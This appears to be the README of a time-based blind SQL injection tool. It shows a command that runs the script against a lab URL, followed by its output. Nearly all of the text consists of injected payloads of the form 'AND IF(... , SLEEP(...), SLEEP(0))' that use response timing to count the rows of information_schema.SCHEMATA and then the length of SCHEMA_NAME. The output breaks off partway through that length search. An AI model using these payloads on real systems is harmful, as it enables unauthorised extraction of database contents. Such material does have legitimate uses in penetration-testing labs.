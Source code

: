 # Time Based Blind SQL Injection Tool

```console
python time_based_blind_sql_injection.py -u "http://192.168.33.10/sqli/time_based_blind_escaped.php" -m "POST" -d "{'to':'1','msg':'message'}" -t 4 -l
```

* Starting attack on URL: http://192.168.33.10/sqli/time_based_blind_escaped.php

* Using 4 thread/s
* Average response time: 0 s
* Using sleep time: 0 s


Determinating number of rows of table: SCHEMATA

{to: 1 AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=0,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=1,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=2,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=3,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=4,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)=5,SLEEP(0.155797244898),SLEEP(0))}

SCHEMATA: 5 rows


Determinating number of characters in the field: SCHEMA_NAME

{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=1,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=2,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=3,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=4,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=5,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=6,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=7,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=8,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=9,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=10,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=11,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=12,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=13,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=14,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=15,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=16,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=17,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1)=18,SLEEP(0.155797244898),SLEEP(0))}
